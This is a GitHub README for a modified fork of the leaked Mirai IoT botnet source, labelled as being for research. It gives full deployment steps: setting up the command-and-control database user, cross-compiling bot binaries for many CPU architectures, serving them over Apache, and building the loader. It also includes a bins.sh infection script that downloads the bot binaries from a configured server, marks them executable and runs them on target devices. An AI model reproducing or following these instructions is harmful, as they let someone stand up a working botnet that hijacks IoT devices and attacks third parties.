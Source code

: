 # Mirai BotNet to Tashiro
Leaked Linux.Mirai Source Code for Research/IoT Development Purposes

Uploaded for research purposes and so we can develop IoT and such.

Modified from https://github.com/jgamblin/Mirai-Source-Code.

## Requirements
* To be able to use vi.
* Do not run in WSL.
* It is recommended that Linux be used as the operating system.

## Credits
[Anna-senpai](https://hackforums.net/showthread.php?tid=5420472)

## Disclaimer
This repository is for academic purposes, the use of this software is your
responsibility.

## Warning
The [zip file](https://www.virustotal.com/en/file/f10667215040e87dae62dd48a5405b3b1b0fe7dbbfbf790d5300f3cd54893333/analysis/1477822491/) for this repo is being identified by some AV programs as malware.  Please take caution. 

## Install

※If you are not logged in as root, be sure to add sudo and follow the installation instructions below.<br />
※If you are unable to install the software, please refer to the following URL for installation.

https://github.com/ruCyberPoison/-Mirai-Iot-BotNet/blob/master/TUTORIAL.txt

```
# apt-get install git gcc golang electric-fence mysql-server mysql-client
# git clone https://github.com/ware255/Mirai-Source-Code-plus.git
# cd Mirai-Source-Code-plus/scripts
# service mysql start
```
Add users to mysql.
```
# mysql -uroot -proot mirai
> INSERT INTO users VALUES (NULL, 'anna-senpai', 'myawesomepassword', 0, 0, 0, 0, -1, 1, 30, '');
> exit
# service mysql restart
```
Cross Compile
```
# chmod +x cross-compile.sh
# sudo ./cross-compile.sh
```
Enter "n" here.
```
Install mysql-server and mysql-client (y/n)? n
```
Edit .bashrc
```
# vi ~/.bashrc
```
Add the following string to the last line
```
export PATH=$PATH:/etc/xcompile/armv4l/bin
export PATH=$PATH:/etc/xcompile/armv5l/bin
export PATH=$PATH:/etc/xcompile/armv6l/bin
export PATH=$PATH:/etc/xcompile/i586/bin
export PATH=$PATH:/etc/xcompile/m68k/bin
export PATH=$PATH:/etc/xcompile/mips/bin
export PATH=$PATH:/etc/xcompile/mipsel/bin
export PATH=$PATH:/etc/xcompile/powerpc/bin
export PATH=$PATH:/etc/xcompile/powerpc-440fp/bin
export PATH=$PATH:/etc/xcompile/sh4/bin
export PATH=$PATH:/etc/xcompile/sparc/bin

export GOPATH=$HOME/go
```
After adding and saving, enter the following command
```
# mkdir ~/go
# source ~/.bashrc
```
Build bot and CNC
Get golang requiremnts
```
# go get github.com/go-sql-driver/mysql
# go get github.com/mattn/go-shellwords
```
In mirai folder, run build.sh script
```
# cd ../mirai
# chmod +x build.sh
# ./build.sh debug telnet
```
Install Apache2 server.
```
# cd ../mirai/debug
# sudo apt-get install apache2 -y
# service apache2 start
# cp mirai.* /var/www/html
# cd /var/www/html
# rm -fr /var/www/html/index.html
```
Check by entering localhost in a browser such as Fireforx.

When you have finished checking, copy and paste the following code and save it as bins.sh.
```
#!/bin/sh

# Edit
WEBSERVER="IP OR HOSTNAME:80"
# Stop editing now 

BINARIES="mirai.arm mirai.m68k miraint.x86 miraint.spc miraint.sh4 miraint.ppc miraint.mpsl miraint.mips miraint.arm7 miraint.arm5n miraint.arm"

for Binary in $BINARIES; do
    wget http://$WEBSERVER/$Binary -O dvrHelper
    chmod 777 dvrHelper
    ./dvrHelper
done
```
Restart Apache2 after saving bins.sh
```
# service apache2 restart
```
Build loader
```
# cd ../loader
# chmod +x build.sh
# ./build.sh
```
This completes the installation. :)
